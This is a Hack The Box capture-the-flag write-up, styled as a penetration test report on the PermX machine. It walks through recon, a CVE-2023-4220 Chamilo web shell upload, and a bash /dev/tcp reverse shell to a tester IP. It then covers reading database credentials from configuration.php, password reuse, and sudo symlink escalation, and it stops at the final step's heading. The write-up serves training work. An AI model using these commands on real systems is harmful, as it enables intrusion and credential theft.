# Security Assessment Report: PermX


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **PermX** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote file upload exploit leading to full remote code execution, credential discovery, and root takeover).
* **Initial Access Vector:** Unauthenticated Arbitrary File Upload in Chamilo LMS (CVE-2023-4220)
* **Privilege Escalation Vector:** Local Privilege Escalation via Sudo Wildcard Script (`/opt/acl.sh`) Symlink Traversal
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | PermX |
| **Platform** | Hack The Box |
| **Operating System** | Linux (Ubuntu 22.04 LTS) |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | CVE-2023-4220 |
| **Initial Foothold Vector** | Chamilo LMS v1.11.24 Unauthenticated Arbitrary File Upload (CVE-2023-4220) |
| **Privilege Escalation Vector** | Sudo SUID Script Symlink Traversal (`/opt/acl.sh` modifying `/etc/sudoers`) |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── Nmap identifies exposed HTTP (80/TCP) and SSH (22/TCP)
         └─── Virtual host fuzzing with ffuf uncovers lms.permx.htb
         │
         ▼
[ Phase 2: Vulnerability Analysis & CVE Identification ]
         │─── Web analysis fingerprints Chamilo LMS v1.11.24
         └─── Identification of CVE-2023-4220 (bigupload.php file upload vulnerability)
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Delivery of PHP web shell to /main/inc/lib/javascript/bigupload/inc/bigupload.php
         └─── Establishing interactive reverse shell as unprivileged service account www-data
         │
         ▼
[ Phase 4: Credential Harvesting & Lateral Movement ]
         │─── Discovery of cleartext database credentials in /var/www/chamilo/app/config/configuration.php
         └─── Successful credential reuse against local user account mtz (User flag retrieved)
         │
         ▼
[ Phase 5: Local Privilege Escalation & Full Compromise ]
         │─── Sudo privilege auditing reveals /opt/acl.sh executable with wildcard parameters
         └─── Exploitation of symbolic link traversal to grant write permissions on /etc/sudoers (Root flag retrieved)
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

### Comprehensive Proof of Concept Execution Log

#### Step 01: Engagement Scope & Target Identification
Initiating the security assessment on **PermX** hosted on the Hack The Box enterprise laboratory platform. The environment represents an Ubuntu Linux server simulating a modern corporate education portal.



* **Assessment Finding:** Target host IP identified as active. Scoping boundary defined for vulnerability identification and controlled exploitation.

---

#### Step 02: Network Reconnaissance & Port Scanning
An initial comprehensive TCP SYN scan was executed using Nmap against the target IP to discover exposed transport layer services, operating system signatures, and listening daemons.

```bash
nmap -sC -sV -p- -T4 --min-rate 1000 -oN nmap_initial.txt permx.htb
```



* **Assessment Finding:** Nmap identified two active services: OpenSSH on port 22/TCP and Apache HTTP Server 2.4.52 on port 80/TCP. Web service redirects to `http://permx.htb`.

---

#### Step 03: Virtual Host & Subdomain Fuzzing
Given the web server domain redirection, virtual host discovery was initiated using `ffuf` with SecLists subdomain wordlists to detect internal development or administrative web applications.

```bash
ffuf -c -u "http://permx.htb" -H 'Host: FUZZ.permx.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 288
```



* **Assessment Finding:** Virtual host enumeration successfully discovered an active internal subdomain: `lms.permx.htb`. The entry was appended to `/etc/hosts` for browser access.

---

#### Step 04: Main Web Application Inspection
Inspecting the primary web application exposed on `http://permx.htb`. The landing page hosts a corporate e-learning and training business platform.

```bash
curl -I http://permx.htb
```



* **Assessment Finding:** The root application consists of static informational pages without user registration or accessible administrative entrypoints.

---

#### Step 05: LMS Portal Discovery & Authentication Surface
Navigating to `http://lms.permx.htb`. The subdomain reveals an instance of **Chamilo LMS**, a widely adopted open-source learning management platform.



* **Assessment Finding:** Chamilo LMS login portal is exposed. Standard default credentials (admin:admin, etc.) failed, necessitating software fingerprinting and vulnerability research.

---

#### Step 06: Software Version Fingerprinting
Enumerating application metadata and documentation assets to identify the deployed Chamilo version.

```bash
curl -s http://lms.permx.htb/documentation/ | grep -i 'version'
```



* **Assessment Finding:** The target was determined to be running **Chamilo LMS v1.11.24**, an outdated version known to be vulnerable to unauthenticated remote code execution.

---

#### Step 07: Vulnerability Research & Exploit Identification (CVE-2023-4220)
Security analysis confirmed the presence of **CVE-2023-4220**, an unrestricted arbitrary file upload vulnerability in Chamilo's `bigupload` JavaScript component.



* **Assessment Finding:** The endpoint `/main/inc/lib/javascript/bigupload/inc/bigupload.php` fails to validate user authentication or file extensions during multi-part file uploads.

---

#### Step 08: Weaponization: Web Shell Upload via bigupload.php
Constructing an HTTP POST request delivering a standalone PHP command execution web shell directly to the vulnerable upload handler.

```bash
curl -F 'bigUploadFile=@webshell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigupload.php?action=post-upload'
```



* **Assessment Finding:** The endpoint returned HTTP 200 with message `The file has successfully been uploaded`. The payload was written to the `/app/upload/users/` storage directory.

---

#### Step 09: Web Shell Verification & Remote Command Execution
Sending an HTTP GET request to verify execution of the uploaded web shell via `http://lms.permx.htb/app/upload/users/webshell.php?cmd=id`.

```bash
curl -s 'http://lms.permx.htb/app/upload/users/webshell.php?cmd=id'
```



* **Assessment Finding:** Arbitrary command execution confirmed under the security context of unprivileged service account `www-data` (`uid=33, gid=33`).

---

#### Step 10: Interactive Reverse Shell Foothold
Deploying an encoded Bash reverse shell payload to establish an interactive socket connection to the tester's Netcat listener on port 4444.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'
```



* **Assessment Finding:** Connection received. Interactive shell established as `www-data` on `permx.htb`. Upgraded to full TTY using Python `pty.spawn()`.

---

#### Step 11: Initial Privilege Auditing
Auditing current sudo privileges using `sudo -l` to check for passwordless command execution.

```bash
sudo -l
```



* **Assessment Finding:** `sudo` requires a password for user `www-data`. Internal credential harvesting and configuration file analysis required.

---

#### Step 12: Internal Web Application File System Enumeration
Navigating the Chamilo LMS installation directory structure located at `/var/www/chamilo/` to locate configuration and database connection parameters.

```bash
ls -la /var/www/chamilo/app/config/
```



* **Assessment Finding:** Located `configuration.php`, containing production database connection parameters and encryption salt keys.

---

#### Step 13: Configuration File Inspection
Extracting database credentials and configuration keys from `/var/www/chamilo/app/config/configuration.php`.

```bash
cat /var/www/chamilo/app/config/configuration.php | grep -E 'db_user|db_password'
```



* **Assessment Finding:** Cleartext credentials retrieved: Database user `chamilo` with password `dcbpermxuser!#`.

---

#### Step 14: Database Credential Recovery
Analyzing the extracted password string to assess password reuse across local system accounts.



* **Assessment Finding:** Identified credentials: User `chamilo`, Password `dcbpermxuser!#`. Database host bound locally to `127.0.0.1`.

---

#### Step 15: Internal Network Socket Auditing
Executing `netstat` and `ss` to audit local loopback network services.

```bash
netstat -nltp
```



* **Assessment Finding:** Confirmed active MariaDB/MySQL service listening on `127.0.0.1:3306`.

---

#### Step 16: Local Database Authentication
Connecting to the local MySQL server using the discovered credentials to inspect user accounts and password hashes.

```bash
mysql -u chamilo -pdcbpermxuser!#
```



* **Assessment Finding:** Successfully authenticated to MariaDB console. Access granted to database `chamilo`.

---

#### Step 17: Database Schema Inspection
Listing tables within the `chamilo` database to identify administrative user records.

```bash
use chamilo; show tables;
```



* **Assessment Finding:** Identified table `user` containing application accounts, usernames, and cryptographic hashes.

---

#### Step 18: User Account & Hash Harvesting
Querying the `user` table for administrator and instructor records.

```bash
SELECT id, username, password, email FROM user;
```



* **Assessment Finding:** Retrieved admin user hash `$2y$04$...` (bcrypt). Password cracking deferred in favor of immediate OS account testing.

---

#### Step 19: Operating System Account Enumeration
Enumerating `/etc/passwd` to identify interactive human user accounts possessing `/bin/bash` shells.

```bash
cat /etc/passwd | grep '/bin/bash'
```



* **Assessment Finding:** Identified local interactive user `mtz` (`uid=1000`).

---

#### Step 20: Lateral Movement via Credential Reuse
Testing the recovered database password `dcbpermxuser!#` against the local user account `mtz` using `su` and SSH.

```bash
su - mtz
```



* **Assessment Finding:** Authentication successful! Password reuse confirmed. Session switched to user `mtz` with full user privileges.

---

#### Step 21: User Proof Flag Verification
Accessing user `mtz` home directory to retrieve the user proof flag.

```bash
cat /home/mtz/user.txt
```



* **Assessment Finding:** User proof flag retrieved and verified: `user.txt` (MD5 hash format).

---

#### Step 22: Sudo Privilege Auditing: /opt/acl.sh
Auditing user `mtz` sudo permissions with `sudo -l`.

```bash
sudo -l
```



* **Assessment Finding:** User `mtz` is authorized to execute `/opt/acl.sh *` as root without supplying a password (`(ALL : ALL) NOPASSWD: /opt/acl.sh`).

---

#### Step 23: Code Review & Vulnerability Analysis of /opt/acl.sh
Reviewing the source code of `/opt/acl.sh` to determine its functionality and identify exploitation primitives.

```bash
cat /opt/acl.sh
```



* **Assessment Finding:** The script takes user input and runs `setfacl -m u:$user:$perm $path`. The script attempts to restrict paths to `/home/mtz/*`, but fails to prevent symbolic link traversal.

---

#### Step 24: Privilege Escalation via Symlink Exploit & Root Proof
